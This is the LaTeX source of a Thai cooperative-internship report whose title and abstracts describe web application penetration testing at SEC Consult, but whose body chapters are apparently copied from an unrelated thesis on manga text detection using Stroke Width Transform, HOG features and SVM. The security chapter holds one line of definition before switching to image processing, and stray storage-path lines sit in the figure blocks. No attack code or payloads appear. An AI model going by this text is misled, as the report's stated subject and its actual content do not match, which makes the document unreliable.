\documentclass{itkmitlcoop}

\usepackage{afterpage}
\usepackage{graphicx,amsmath,latexsym,amssymb,amsthm}
\usepackage{indentfirst}
\usepackage{cite}
\usepackage[final]{pdfpages}

% ##### Code Snippets Setting https://www.overleaf.com/learn/latex/Code_listing
\usepackage{listings}
\usepackage{xcolor}
\usepackage{lstfiracode}
 \setmonofont{Fira Code}[
 Contextuals=Alternate  % Activate the calt feature
 ]
 \usepackage{wrapfig}
\definecolor{codegreen}{rgb}{0,0.6,0}
\definecolor{codegray}{rgb}{0.5,0.5,0.5}
\definecolor{codepurple}{rgb}{0.58,0,0.82}
\definecolor{backcolour}{rgb}{0.95,0.95,0.92}

\lstset{style=FiraCodeStyle,
	basicstyle=\ttfamily\footnotesize,,
		backgroundcolor=\color{backcolour},   
	commentstyle=\color{codegreen},
	keywordstyle=\color{magenta},
	numberstyle=\tiny\color{codegray},
	stringstyle=\color{codepurple},
	breakatwhitespace=false,         
	breaklines=true,                 
	captionpos=b,                    
	keepspaces=true,                 
	numbers=left,                    
	numbersep=5pt,                  
	showspaces=false,                
	showstringspaces=false,
	showtabs=false,                  
	tabsize=2,
	escapeinside={<@}{@>},
}


% ##### Set indent after new line on bibliography
\def\bibindent{2.1em}
\makeatletter
\let\old@biblabel\@biblabel
\def\@biblabel#1{\old@biblabel{#1}\kern\bibindent}
\let\old@bibitem\bibitem
\def\bibitem#1{\old@bibitem{#1}\leavevmode\kern-\bibindent}
\makeatother

\graphicspath{ {images/} }

%Your thesis title (THAI)
\newcommand{\ThesisTiTle}{การศึกษาการประเมินช่องโหว่ความปลอดภัยของเว็บแอปพลิเคชันในกรณีศึกษาที่ได้จากการฝึกงานสหกิจ ณ บริษัท เซค คอนซัลท์ (ไทยแลนด์) จำกัด}
%Your thesis title (ENG)
\newcommand{\ThesisTiTleENG}{A STUDY ON PENETRATION TESTING OF WEB APPLICATIONS: CASE STUDIES FROM CO-OPERATIVE EDUCATION AT SEC CONSULT (THAILAND) CO., LTD.}
\newcommand{\ThesisTiTleENGSnakecase}{A Study on Penetration Testing of Web Applications: Case Studies from Co-Operative Education at SEC Consult (Thailand) Co., Ltd}
%Your name
\newcommand{\AuName}{นายวีรภัทร ทรัพย์สมบูรณ์}
%Your name ENG
\newcommand{\AuNameENG}{WEERUHPUTT SUPSOHMBOON}
\newcommand{\AuNameENGSnakecase}{Weeruhputt Supsohmboon}
%Your student ID
\newcommand{\SId}{59070162}
%Your advisor
\newcommand{\Advisor}{ผู้ช่วยศาสตราจารย์ ดร. สุเมธ ประภาวัต}
%Your advisor english
\newcommand{\AdvisorEng}{Assistance Professor Dr. Sumet Prabhavat}
%Your advisor employee
\newcommand{\Exami}{นายชาญณรงค์ ตัณฑวนันท์}
%สถานประกอบการ
\newcommand{\Company}{บริษัท เซค คอนซัลท์ (ไทยแลนด์) จำกัด}
\newcommand{\CompanyEng}{SEC Consult (Thailand) Co., Ltd.}
%ภาคเรียนที่ (in normal letters)
\newcommand{\Sem}{1}
%ปีการศึกษา (in normal letters)
\newcommand{\AcaY}{2562}
%ปีการศึกษา (in normal letters)
\newcommand{\AcaYAD}{2019}
%วันส่งรายงาน
\newcommand{\SubD}{15 พฤษจิกายน พ.ศ. 2562}
%วันเริ่มทำงาน
\newcommand{\StartDWork}{3 มิถุนายน พ.ศ. 2562}
%วันสุดท้ายของการทำงาน
\newcommand{\EndDWork}{29 พฤษจิกายน พ.ศ. 2562}
%ที่อยู่สถานประกอบการ
\newcommand{\Address}{29/1 ปิยะเพลส หลังสวน ชั้น 16 ห้อง 16บี ซอยหลังสวน ถนนเพลินจิต แขวงลุมพินี \newline เขตปทุมวัน กรุงเทพ 10330}
%เว็บไซต์สถานประกอบการ
\newcommand{\Website}{https://sec-consult.com/en/}
%ตำแหน่งานที่ปฏิบัติ
\newcommand{\Position}{ผู้ช่วยผู้ให้คำปรึกษาด้านความปลอดภัย}

\begin{document}    
    \frontmatter
    \pagenumbering{Roman}
    \lhead{}\rhead{}\chead{}\lfoot{}\cfoot{\thepage}\rfoot{}
    
    \makecover
    \makeinnercover
    \makeengcover
    \makecopyrightcover
    \makeletter
    \makeack{
        \begin{enumerate}
			\itemsep0em 
            \item \Exami \quad ตำแหน่ง Security Consultant
            %\item นายธนภณ ซู \quad ตำแหน่ง Security Consultant
        \end{enumerate}
    }
    \makeapproveletter
    
    % Setting margin for page numbering on frontmatter
    \newgeometry{top=1in, bottom=1in, left=1.5in, right=1in, includefoot}
    
   \makeabstract{
    		รายงานการปฏิบัติงานสหกิจศึกษาฉบับนี้กล่าวถึงขั้นตอนการทำงานเจาะระบบ และรายการช่องโหว่ซึ่งจัดหมวดหมู่ตาม OWASP Top 10 และรวบรวมมาจากการฝึกงานสหกิจศึกษา ณ \Company ซึ่งเป็นบริษัทที่ดำเนินธุรกิจให้คำปรึกษาด้านความปลอดภัยของระบบสารสนเทศทั้งในองค์กร และผลิตภัณฑ์สาธารณะที่บุคคลทั่วไปใช้งาน
    		
    		งานที่ผู้เขียนได้ฝึกงานสหกิจศึกษาเป็นงานค้นหาช่องโหว่ในระบบสารสนเทศของลูกค้า พร้อมทั้งรายงานช่องโหว่ที่พบเจอและวิธีการแก้ไขช่องโหว่ให้กับลูกค้า ซึ่งใช้การบูรณาการทางด้าน Software Engineer และ Computer Network เข้ามาคาดเดากระบวนการทำงานของระบบ เพื่อช่วยให้ค้นหาช่องโหว่ได้ง่ายขึ้น
    		
    		โดยส่วนมากช่องโหว่ที่พบเจอมักจะไม่รุนแรงมากนัก กล่าวคือเพียงแค่ขาดการตั้งค่าที่ส่งเสริมความปลอดภัยให้ดีขึ้น แต่ทว่าก็พบเจอช่องโหว่ร้ายแรงบ้างเหมือนกัน ซึ่งช่องโหว่ที่ร้ายแรงมากที่สุดที่เคยพบเจอคือช่องโหว่ที่สามารถส่งคำสั่งไปทำงานบน Server ได้ ทำให้สามารถเข้าถึงการตั้งค่าและข้อมูลต่าง ๆ ของระบบได้
    }

    \makeengabstract{
		This cooperative internship report describes the penetration testing process and the vulnerability collection, which is categorized according to the OWASP Top 10 and gathered from a cooperative internship at \CompanyEng, a company that provides information security consulting services for many organizations.
		
		The work that the author has practiced in cooperative studies is to search for security vulnerabilities in the customer information system. Including reporting vulnerabilities and resolving vulnerabilities for customers, which uses the integration of software engineers and computer networks skills to predict system processes to help find vulnerabilities more efficiently.
		
		In most cases, the founded vulnerabilities are not entirely critical. Many of them are just lack of settings that increase security, e.g., HTTP Security Headers. But the most severe vulnerability which had been found was the ability to send commands to run on the server, allowing access to system settings and data.
		
    }

    \newpage
    \addcontentsline{toc}{chapter}{สารบัญ}
    \tableofcontents
    
    %\newpage
    %\addcontentsline{toc}{chapter}{สารบัญตาราง}
    %\listoftables
    
    \newpage
    \addcontentsline{toc}{chapter}{สารบัญรูป}
    \listoffigures
    
    % Reset frontmatter page numbering margin, back to original margin from class file
    \restoregeometry

    \mainmatter
    \lhead{}\rhead{\thepage}\chead{}\lfoot{}\cfoot{}\rfoot{}
    
    \chapter{บทนำ}
\label{chapter:introduction}

\section{ที่มาและความสำคัญ}

การ์ตูนญี่ปุ่นเป็นที่รู้จักกันอย่างแพร่หลายทั่วโลกในฐานะสื่อบันเทิง หรืออีกชื่อหนึ่งคือ “มังงะ (Manga)” ในปัจจุบันมีงานวิจัยในหัวข้อมังงะอย่างหลากหลาย ในหลาย ๆ งานวิจัย~\cite{8369633, Liu2016, Pang2014, 7415523, ogawa2018, 7351614, 7452668} มีการใช้ชุดข้อมูลสำหรับการทดลอง เช่น Manga109~\cite{Matsui2017} ซึ่งเป็นชุดข้อมูลที่ถูกสร้างขึ้นจากภาพมังงะจำนวน 20,260 หน้า รวบรวมจากมังงะ 109 เรื่อง มังงะที่ถูกรวบรวมมานี้เป็นผลงานของนักวาดมังงะมืออาชีพชาวญี่ปุ่น นอกจากภาพของมังงะแล้ว ชุดข้อมูลนี้ยังประกอบไปด้วยข้อมูลอธิบายประกอบ หรือ Annotation ต่าง ๆ เช่น ขอบเขตและตำแหน่งของใบหน้า ร่ายกาย และ กรอบภาพ เป็นต้น นอกจากนี้ยังมีข้อมูลขอบเขตและตำแหน่งของข้อความที่ปรากฎในภาพมังงะ โดยตำแหน่งข้อความต่าง ๆ นั้นถูกป้อนข้อมูลด้วยแรงงานคนโดยไม่พึ่งพาระบบอัตโนมัติใด ๆ ในการป้อนข้อมูลดังกล่าวนั้นใช้เวลานานและต้องพึ่งพาแรงงานมนุษย์ ด้วยเหตุนี้ระบบอัตโนมัติที่จะสามารถเข้ามาช่วยในการระบุข้อมูล Annotation นั้นจึงมีประโยชน์และสามารถช่วยลดภาระงานในส่วนนี้ลงได้อย่างมาก

ถึงแม้ว่าสำหรับภาพวาดรูปแบบการ์ตูนญี่ปุ่นจะมีทั้งแบบภาพวาดทั่วไปที่เป็นภาพแสดงของตัวละครหรือทิวทัศน์และแบบภาพมังงะ แต่ภายในงานวิจัยนี้เรามุ่งเน้นไปที่มังงะเป็นหลักเนื่องจากข้อความมักปรากฎบนหนังสือการ์ตูนมากกว่าภาพวาดทั่วไปอย่างที่ทราบกันดี สำหรับวิธีการตรวจหาข้อความในภาพมังงะนั้นมีการพัฒนามาหลากหลายก่อนหน้านี้~\cite{6761596, 7490104} แต่วิธีเหล่านี้ถูกพัฒนาให้พึ่งพาโครงสร้างส่วนต่าง ๆ ของภาพมังงะเป็นข้อมูลอ้างอิง เช่น กรอบช่องภาพวาด, ลักษณะของกล่องคำพูด เป็นต้น นอกจากนี้บางวิธียังคงมีความจำเป็นที่ต้องพึ่งพาการป้อนข้อมูลเข้าจากภายนอกทั้งจากมนุษย์และข้อมูลอื่น ๆ ทำให้ไม่สามารถทำงานได้อัตโนมัติอย่างสมบูรณ์ อย่างไรก็ดีไม่นานมานี้มีการพัฒนาวิธีการใหม่โดยใช้วิธีการ Deep Learning อย่างเช่นเทคนิค Convolutional Neural Network เพื่อช่วยในการสกัดลักษณะเด่น (Feature) ออกจากภาพมังงะเพื่อช่วยในการตรวจหาข้อความในภาพมังงะ~\cite{7532890} ซึ่งวิธีการนี้สามารถเพิ่มความแม่นยำและถูกต้องในการตรวจหาข้อความได้โดยปราศจากการพึ่งพาโครงสร้างต่าง ๆ ในภาพมังงะ แต่อย่างไรก็ดี Deep Learning ยังเป็นการวิธีการที่ต้องใช้ทรัพยากรของระบบเพื่อการคำนวนมากกว่าวิธีการอื่น ๆ ซึ่งเป็นข้อเสียสำคัญประการหนึ่ง~\cite{7532890}

ในงานวิจัยนี้มีจุดมุ่งหมายเพื่อพัฒนาระบบตรวจหาข้อความที่ทำงานได้กับมังงะอย่างหลากหลายและไม่ถูกจำกัดด้วยโครงสร้างหรือลักษณะบางประการของภาพมังงะ เราจึงเลือกใช้ Stroke Width Transform (SWT) ในการสกัดลักษณะเด่นของเส้นต่าง ๆ ของวัตถุที่ปรากฎในภาพออกมา โดยวิธีการนี้ถูกใช้เป็นขั้นตอนแรกของการตรวจหาข้อความบนภาพถ่ายมาก่อนหน้านี้ วิธีการนี้ทำงานโดยพึ่งพาสมมติฐานว่าขอบของเส้นอักษรในข้อความนั้นมีขอบที่ชัดเจนและหนาแน่นปรากฏอยู่บนพื้นหลังที่ราบเรียบ~\cite{5540041} อย่างไรก็ดีการใช้วิธีการนี้กับการตรวจหาข้อความบนภาพมังงะส่งผลให้เกิดข้อผิดพลาดเชิง False Positive จำนวนมาก ปัญหานี้เกิดจากความแตกต่างของลักษณะเฉพาะตัวของภาพถ่ายและภาพวาดมังงะ ภาพมังงะนั้นโดยส่วนใหญ่มีลักษณะเป็นภาพขาวดำ และลักษณะของวัตถุภายในมังงะ เช่น ขนาด, เส้น, และพื้นหลัง นั้นมีความคล้ายคลึงกับตัวอักษรของข้อความ ด้วยปัญหาข้างต้นเราจึงตั้งเป้าหมายในการปรับปรุงและพัฒนา SWT ที่ถูกใช้ในภาพถ่าย~\cite{5540041} เพื่อให้สามารถทำงานกับภาพมังงะได้

วิธีการใหม่ของเราที่ถูกพัฒนาขึ้นใหม่นั้นแบ่งออกเป็น 4 ส่วนดังนี้ (\rNum{1}) The Stroke Width Transform (\rNum{2}) ค้นหาวัตถุที่เข้าข่ายลักษณะของตัวอักษร (\rNum{3}) คัดแยกอักษร โดยใช้ Support Vector Machine (SVM) ร่วมกับ Histogram of Oriented Gradients Feature (\rNum{4}) จัดกลุ่มอักษรที่ผ่านการคัดแยกแล้วให้เกิดเป็นบรรทัดหรือกลุ่มของข้อความ

\section{วัตถุประสงค์}
พัฒนาระบบค้นหาตำแหน่งข้อความสำหรับมังงะ โดยนำ Stroke Width Transform ที่ถูกใช้เป็นกระบวนการแรกเริ่มในเทคนิคตรวจหาข้อความบนภาพถ่ายมาพัฒนาและปรับปรุงต่อยอดเพื่อให้สามารถใช้งานกับภาพมังงะได้มีประสิทธิภาพมากขึ้น

\section{ขอบเขตของงานวิจัย}
\begin{enumerate}
    \item พัฒนาระบบตรวจหาตำแหน่งข้อความซึ่งใช้สำหรับภาพมังงะ โทนสีขาวดำ
    \item ภาษาของเนื้อหาในมังงะที่นำมาใช้งาน คือ ภาษาญี่ปุ่น
    \item ข้อมูลที่ใช้ในการวิจัยเพื่อการเทรนและทดสอบนำมาจากฐานข้อมูล Manga109
\end{enumerate}

\section{ประโยชน์ที่คาดว่าจะได้รับ}
\begin{enumerate}
    \item ได้วิธีการตรวจหาข้อความใหม่ที่ถูกพัฒนาขึ้นเพื่อใช้งานร่วมกับภาพมังงะโดยเฉพาะ
    \item ทำให้ทราบถึงลักษณะที่เป็นเอกลักษณ์ของมังงะซึ่งแตกต่างจากภาพถ่ายทั่วไป
\end{enumerate}



    \chapter{รายละเอียดของงานที่ปฏิบัติ}
\label{chapter:related-theory}

\section{การทดสอบเจาะระบบ}

การทดสอบเจาะระบบ (Penetration Testing) เป็นขั้นตอนการทำงานของการทดสอบเจาะระบบ โดยใช้ช่องโหว่ของซอฟต์แวร์หรือฮาร์ดแวร์ที่มีอยู่ ประเมินความเสี่ยงของระบบนั้นๆ

\subsection{Stroke Width Transform}

Stroke Width Transform หรือ SWT เป็นเทคนิคที่ใช้ช่วยในการทำงานของระบบตรวจหาข้อความในภาพถ่าย โดยสกัดลักษณะเด่นของเส้นต่าง ๆ ในภาพ เช่น เส้นของตัวอักษร เป็นต้น~\cite{5540041} ด้วยลักษณะดังกล่าว ทำให้เราสามารถใช้ในการคัดแยกวัตถุที่เป็นตัวอักษรออกจากวัตถุอื่น ๆ ได้โดยพึ่งพาลักษณะเด่นเหล่านั้น

เริ่มแรกเราสร้างภาพ Output ที่มีขนาดเท่ากับภาพที่ต้องการตรวจหาข้อความ โดยแต่ละ Pixel ในภาพถูกกำหนดให้มีค่าอนันต์ ($\infty$) จากนั้นใช้ Canny Edge Detection~\cite{4767851} ตรวจหาตำแหน่งของขอบของวัตถุในภาพ ซึ่งจากตัวอย่างในภาพ หากเรามีภาพ~\ref{Fig:swt:a} จากนั้นใช้การตรวจหาตำแหน่งขอบของวัตถุ เราจะได้ผลลัพธ์ตามภาพ~\ref{Fig:swt:b} เมื่อตรวจหาตำแหน่งขอบเสร็จสิ้นต่อมาจะคำนวนความกว้างของเส้นโดยใช้ขอบที่ได้มา ความกว้างคำนวนได้จากระยะห่างระหว่างขอบของเส้นโดยพิจารณาทุก Pixel $p$ ของขอบที่ได้จาก Canny Edge Detection เพื่อหา Pixel $q$ ที่เข้าคู่กัน อย่างที่แสดงให้เห็นในภาพ~\ref{Fig:swt:b} การหา $q$ จาก $p$ ทำได้โดยใช้ Gradient Direction ของ $p$ ซึ่งคือ $d_p$ โดย $d_p$ จะชี้ไปหา $q$ และหาก $d_p$ และ $d_q$ มีทิศทางตรงกันข้ามโดยประมาณ $d_q = -d_p \pm \pi/6$ ให้กำหนดค่าให้กับแต่ละ Pixel ที่อยู่ภายใต้แนวทางระหว่าง $p$ และ $q$ ให้มีค่าเท่ากับ $\| \overrightarrow{p-q}\|$ เว้นแต่ว่า Pixel ที่จะระบุค่าให้นั้นมีค่าเดิมน้อยกว่าค่าใหม่ที่จะระบุให้ ดังนั้นหากค่าใหม่น้อยกว่าค่าเดิมใน Pixel ก็สามารถทำการระบุค่าใหม่แทนทีค่าเดิมให้กับ Pixel นั้นได้ อย่างที่ปรากฎในภาพ~\ref{Fig:swt:c} เมื่อทำครบทุก Pixel ในภาพ สุดท้ายจะได้เมทริกซ์ Output ขนาดเท่าภาพ Input โดยมีค่าของความกว้างเส้นถูกระบุในพื้นที่ระหว่างขอบของเส้นอย่างเช่นปรากฏในภาพ~\ref{Fig:swt:c}

\begin{figure}[!h]
    \centering
    \subfigure[]{
        \label{Fig:swt:a}
        
\includegraphics[width=0.4\textwidth]{swt-a.png}  
    }
    \subfigure[]{
        \label{Fig:swt:b}
        
\includegraphics[width=0.4\textwidth]{swt-b.png}  
    }
    \subfigure[]{
        \label{Fig:swt:c}
        
\includegraphics[width=0.4\textwidth]{swt-c.png}  
    }
    \caption{ขั้นตอนการทำงานของ Stroke Width Transform}
    \label{Fig:swt}
\end{figure}

\subsection{ค้นหาวัตถุที่มีลักษณะใกล้เคียงตัวอักษร}

ในขั้นตอนนี้เรานำผลลัพธ์จากขั้นตอนก่อนหน้ามากำจัดวัตถุที่ไม่มีลักษณะคล้ายคลึงอักษร เริ่มจากจับกลุ่มแต่ละ Pixel ในผลลัพธ์ของขั้นตอนก่อนหน้า การจับกลุ่มทำได้โดยเปรียบเทียบแต่ละ Pixel กับ Pixel เพื่อนบ้านรอบข้าง หาก Pixel สองตัวที่เปรียบเทียบกันมีค่าของความกว้างเส้นไม่ต่างกันเกิน 3.0  เท่า ให้ถือว่า Pixel ทั้งสองเป็นส่วนของวัตถุเดียวกันซึ่งจะถูกจัดกลุ่มเข้าด้วยกัน เมื่อการจัดกลุ่ม Pixel เสร็จสิ้น ผลลัพธ์ที่ได้คือภาพวัตถุต่าง ๆ ที่ปรากฏในภาพหรือ Connected Components อย่างไรก็ดีหากวัตถุที่เกิดจากการรวมกลุ่มของ Pixel นั้นใหญ่หรือเล็กเกินไปก็จะถูกคัดออก การคัดวัตถุลักษณะดังกล่าวออกไปทำโดยการใช้กฎสองข้อดังนี้ (\rNum{1}) อัตราส่วนระหว่างเส้นผ่าศูนย์กลางต่อมัธยฐานของความกว้างของเส้นตัวอักษรนั้นต้องน้อยกว่า 10  (\rNum{2}) ความสูงต้องมากกว่า 10 และน้อยกว่า 300 ตามที่แสดงในสมการ~\ref{eq:old-condition}


\begin{equation}
f(d, h, \tilde{s})= 
\begin{cases}
1, &\text{if } \frac{d}{\tilde{s}} < 10 \text{ and } 10 < h < 300\\
0, &otherwise
\end{cases},
\label{eq:old-condition}
\end{equation}

โดย $d$ คือ เส้นผ่าศูนย์กลางของวัตถุ, $h$ คือ ความสูงของวัตถุ, และ $\tilde{s}$ คือ มัธยฐานของของความกว้างเส้นตัวอักษร โดยค่าความกว้างได้มาจากค่าของ Pixel ในพื้นที่ของเส้นที่ถูกระบุไปโดยขั้นตอน SWT

\subsection{จัดกลุ่มตัวอักษร}

วัตถุแต่ละชิ้นที่ทีลักษณะคล้ายคลึงกับอักษรซึ่งผ่านการคัดกรองด้วยกฎจากขั้นตอนก่อนหน้าจะถูกนำมาจับกลุ่มเป็นบรรทัดของข้อความในขั้นตอนนี้โดยใช้การเปรียบเทียบความคล้ายคลึงระหว่างลักษณะอักษรต่าง ดังนี้ ระยะห่างระหว่างวัตถุ, อัตราส่วนความกว้างของเส้นอักษร, และความสูงของอักษร โดยสองวัตถุจะถูกจัดกลุ่มกันต่อเมื่อ (\rNum{1}) อัตราส่วนระหว่างค่ามัธยฐานความกว้างเส้นของวัตถุทั้งสองมีค่าน้อยกว่า 2 เท่า (\rNum{2}) ความสูงของอักษรทั้งสองต่างกันไม่เกิน 2 เท่า (\rNum{3}) ระยะห่างระหว่างสองวัตถุนั้นมีค่าไม่เกิน 3 เท่าของวัตถุที่กว้างที่สุดในคู่อักษรที่ใช้เปรียบเทียบ หลังจากการจัดกลุ่มนี้เราจะได้โซ่ของอักษรที่ถูกจัดกลุ่มเข้าด้วยกัน แต่ละโซ่ประกอบไปด้วยอักษรสองตัวที่ถูกจัดกลุ่ม ต่อมานั้นแต่ละโซ่จะถูกรวมเข้าด้วยกันหากโซ่อักษรมีอักษรในโซ่ของตนร่วมกันโซ่อื่น ๆ และทิศทางของโซ่มีความใกล้เคียงกัน

สุดท้ายขั้นตอนนี้จะจบลงเมื่อไม่มีโซ่อักษรใด ๆ ถูกเชื่อมต่อเพิ่มเติม ในที่สุดเราจะได้กลุ่มหรือโซ่ของอักษรที่เกิดจากการจัดกลุ่มด้วยความคล้ายคลึงของอักษรและทิศทางของข้อความ อีกนัยนึงคือเราได้กลุ่มบรรทัดของแต่ละประโยคออกมาจากภาพถ่ายเรียบร้อยในขั้นตอนนี้

\section{Histogram of Oriented Gradients}

Histogram of Oriented Gradients (HOG) เป็นการสกัด Feature ของภาพโดยอาศัยรูปแบบ Histogram ของทิศทางเฉดสีในภาพ หรือ Gradient direction เพื่อพิจารณาลักษณะของวัตถุต่าง ๆ อย่างที่แสดงในภาพ~\ref{Fig:hog} โดยภาพ~\ref{Fig:hog:letter} คือ ตัวอย่างอักษรภาษาญี่ปุ่น และภาพ~\ref{Fig:hog:hog} คือภาพแสดงทิศทางของเฉดสีของภาพอักษรโดยใช้เส้นขนาดเล็กแสดงทิศทางของเฉดสี ด้วยความสามารถนี้ จึงมีการนำ HOG มาใช้สำหรับสกัดลักษณะเด่นเพื่อใช้ในงานจำพวกการตรวจจับวัตถุอย่างหลากหลาย ทั้ง การตรวจจับท่าทางของมือ~\cite{Freeman}, การตรวจจับรถบนท้องถนน~\cite{8314922}, การตรวจจับมนุษย์ในภาพ~\cite{1467360} และไม่เพียงแค่สามารถใช้กับงานตรวจจับวัตถุ แต่ยังสามารถใช้กับงานด้านตรวจหาข้อความในภาพได้เช่นกัน~\cite{DBLP:journals/corr/WangWZLZ15, 6628751, 8280697}

\begin{figure}[!h]
    \centering
    \subfigure[]{
        \label{Fig:hog:letter}
        
\includegraphics[width=0.45\textwidth]{letter.jpg}  
    }
    \subfigure[]{
        \label{Fig:hog:hog}
        
\includegraphics[width=0.45\textwidth]{hog.png}  
    }
    \caption{ตัวอย่างข้อมูลนำเข้าและการจำลองภาพทิศทางของ Histogram of Oriented Gradients}
    \label{Fig:hog}
\end{figure}

การสกัดลักษณะเด่นของ HOG นั้นทำได้โดยเริ่มจากแบ่งภาพเป็นส่วนเล็ก เรียกว่า Cell หรือช่องสีแดงตามที่แสดงในภาพ~\ref{Fig:cell-and-block} จากนั้นสร้าง Histogram สำหรับ Cell นั้น ๆ ด้วยค่า Gradient Direction และ Magnitude โดย Histogram นี้จะเป็นตัวแทนของลักษณะขอบและรูปร่างที่อยู่ภายใน Cell นั้น ๆ จากนั้นจะทำการ Normalization กับ Histogram ของแต่ละ Cell ด้วยกลุ่มของ Cell หรือที่เรียกว่า Block อย่างที่เห็นเป็นช่องสีน้ำเงินในภาพ~\ref{Fig:cell-and-block} สุดท้ายเราจะได้ Histogram ของ Gradient Direction จากทุก ๆ Cell ของภาพซึ่งเป็นตัวแทนของรูปร่างวัตถุแต่ละส่วน ด้วย Histogram ที่ได้มาจะถูกนำไปเข้ากระบวนการ Vectorization เพื่อให้สามารถใช้ในงานอื่น ๆ ได้ต่อไป

\begin{figure}[!h]
    \centering
    
\includegraphics[width=0.45\textwidth]{block.png}  
    \caption{Cell และ Block ในการทำงานของ Histogram of Oriented Gradients}
    \label{Fig:cell-and-block}
\end{figure}

อย่างไรก็ดีการที่จะได้ HOG ของวัตถุที่เราต้องการตรวจสอบจำเป็นต้องใช้ภาพของวัตถุนั้น ๆ ในการคำนวณ แต่ในสถานการณ์จริงภาพของวัตถุอาจอยู่ในภาพถ่ายขนาดใหญ่ที่ประกอบไปด้วยหลายวัตถุ เราจึงต้องตัดภาพของวัตถุเป็นส่วนย่อยเพื่อใช้คำนวณกับ HOG เราเรียกภาพส่วนย่อยที่ถูกตัดออกมานั้นว่า Patch ดังนั้นเราจำเป็นต้องใช้ Patch ที่มีขนาดใกล้เคียงกับวัตถุนั้น ๆ เป็นเหตุให้หากภาพมีขนาดใหญ่แต่วัตถุที่ต้องการตรวจพบมีขนาดเล็ก จำนวน Patch ก็จะมากขึ้น

ในกรณีของมังงะ ตัวอักษรมักมีขนาดเล็ก (20px – 40px โดยส่วนใหญ่อ้างอิงจาก Dataset ของเรา) เมื่อเทียบกับขนาดภาพมังงะ (1170px อ้างอิงจาก dataset ของเรา) ซึ่งมีขนาดใหญ่กว่าหลายเท่า ดังนั้นจำนวนของ Patch ที่ต้องสร้างและคำนวนด้วย HOG จึงมีมหาศาลและสร้างภาระแก่การคำนวน ลักษณะเด่นด้วย SVM อย่างมาก ซึ่งปัญหาส่วนนี้ส่งผลกระทบต่อความเร็วในการทำงานของเรา เราจึงใช้ SWT สำหรับกำหนดพื้นที่ที่คาดว่าเป็นอักษรเพื่อใช้สร้าง Patch แทนการสร้าง Patch จากทุกส่วนของภาพด้วยการใช้ Sliced Window

\section{Support Vector Machine}

Support Vector Machine (SVM)~\cite{Suykens1999} เป็นเทคนิค Pattern Recognition แบบ Supervised Learning ซึ่งถูกใช้ทั้งในงานเพื่อ Classification และ Regression ซึ่งภายในงานนี้ได้ใช้งานเพื่อ Classification โดยทำงานด้วยการสร้าง Hyper-plane ที่เหมาะสมที่สุด (Optimal) เพื่อจำแนกแยกข้อมูลสองกลุ่มอย่างที่แสดงในภาพ~\ref{Fig:svm}

\begin{figure}[!h]
    \centering
